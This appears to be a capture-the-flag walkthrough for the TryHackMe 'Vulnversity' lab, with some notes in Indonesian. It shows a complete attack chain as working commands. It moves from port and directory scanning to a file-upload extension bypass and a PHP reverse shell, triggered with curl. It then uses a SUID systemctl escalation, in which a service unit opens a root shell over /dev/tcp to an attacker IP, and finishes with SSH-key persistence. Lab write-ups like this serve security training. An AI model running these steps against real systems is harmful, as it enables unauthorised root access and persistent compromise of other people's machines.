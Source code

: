 room: https://tryhackme.com/room/vulnversity
## Env
```sh
export victim=10.10.23.11
```

### nmap Scan
```sh
nmap -sV $victim
```
output:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-18 14:26 +08  
Nmap scan report for 10.10.147.196  
Host is up (0.26s latency).  
Not shown: 993 closed tcp ports (conn-refused)  
PORT     STATE    SERVICE     VERSION  
21/tcp   open     ftp         vsftpd 3.0.3  
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)  
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
1007/tcp filtered unknown  
3128/tcp open     http-proxy  Squid http proxy 3.5.12  
3333/tcp open     http        Apache httpd 2.4.18 ((Ubuntu))  
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 47.64 seconds
```

### Gobuster Scan
```sh
gobuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt dir -u "http://$victim:3333/"
```

### FFUF Scan
```sh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://$victim:3333/FUZZ
```
output:
```
       /'___\  /'___\           /'___\          
      /\ \__/ /\ \__/  __  __  /\ \__/          
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\         
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/         
        \ \_\   \ \_\  \ \____/  \ \_\          
         \/_/    \/_/   \/___/    \/_/          
  
      v1.4.1  
________________________________________________  
  
:: Method           : GET  
:: URL              : http://10.10.147.196:3333/FUZZ  
:: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  
:: Follow redirects : false  
:: Calibration      : false  
:: Timeout          : 10  
:: Threads          : 40  
:: Matcher          : Response status: 200,204,301,302,307,401,403,405,500  
________________________________________________  
  
.htpasswd               [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 254ms]  
.htaccess               [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 3683ms]  
.hta                    [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 3684ms]  
css                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 412ms]  
fonts                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 599ms]  
images                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 416ms]  
index.html              [Status: 200, Size: 33014, Words: 8161, Lines: 653, Duration: 409ms]  
internal                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 408ms]  
js                      [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 269ms]  
server-status           [Status: 403, Size: 303, Words: 22, Lines: 12, Duration: 255ms]  
:: Progress: [4681/4681] :: Job [1/1] :: 145 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```

### Burpsuite Extention Upload Bruteforce
```sh
echo -e ".php\n.php3\n.php4\n.php5\n.phtml" > phpext.txt
```
- Masukkan payload-nya
- Nonaktifkan URL encode
![](Pasted%20image%2020220418151228.png)

### Reverse Shell
```sh
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv ./php-reverse-shell.php ./php-reverse-shell.phtml
```
Rubah IP di file php-reverse-shell.phtml

Attacker:
```sh

curl http://$victim:3333/internal/uploads/php-reverse-shell.phtml
```

Attacker
```sh
nc -lvnp 1234
```

Victim
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -user root -perm -4000 -exec ls -ldb {} \;
```

>Referensi: https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation

Victim
```sh
echo "[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.18.90.165/4444 0>&1'

[Install]
WantedBy=multi-user.target" > /var/tmp/root.service

/bin/systemctl enable /var/tmp/root.service

```

Attacker
```ls
nc -lvnp 4444
```

Victim:
```sh
/bin/systemctl start root
```

### Login Via SSH
Attacker:
```sh
cat cat ~/.ssh/authorized_keys
```
Victim:
```sh
echo "<copy the ~/.ssh/authorized_keys (attacker)>" >> ~/.ssh/authorized_keys
```

Attacker:
```sh
ssh root@$victim
```